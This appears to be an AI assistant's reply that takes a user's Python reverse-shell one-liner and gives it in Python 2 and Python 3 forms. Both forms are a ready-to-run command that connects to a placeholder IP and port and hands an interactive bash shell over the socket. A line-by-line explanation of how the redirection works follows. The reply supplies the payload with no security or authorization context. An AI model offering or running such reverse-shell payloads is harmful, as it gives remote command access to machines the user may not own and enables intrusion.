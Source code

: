 ### Python 2 Version

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("[IP_ADDRESS]",[PORT]));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);'
```

This command is already compatible with Python 2 as is. Python 2 does not enforce parentheses for `print` statements, which is the most common difference you'd encounter.

### Python 3 Version

```python
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("[IP_ADDRESS]",[PORT]));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);'
```

The Python command you've provided creates a reverse shell, connecting back to a specified IP address and port. Let's break down the command for both Python 2 and Python 3 versions:

1. **`import socket, subprocess, os`**:
   - Imports necessary modules: `socket` for network connections, `subprocess` for running a new process (bash in this case), and `os` for OS-level operations.

2. **`s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`**:
   - Creates a new socket object `s`.
   - `socket.AF_INET` specifies the address family for IPv4.
   - `socket.SOCK_STREAM` indicates that it is a TCP socket.

3. **`s.connect(("[IP_ADDRESS]",[PORT]))`**:
   - Initiates a connection to the specified IP address and port. Replace `[IP_ADDRESS]` and `[PORT]` with the actual IP address and port number.

4. **`os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)`**:
   - `os.dup2` duplicates a file descriptor. `s.fileno()` returns the file descriptor of the socket.
   - Duplicates the socket's file descriptor over standard input (0), standard output (1), and standard error (2). This redirects the I/O to the network socket.

5. **`subprocess.call(["/bin/bash","-i"])`**:
   - Runs `/bin/bash` in interactive mode. This launches a bash shell that interacts over the network connection established earlier.
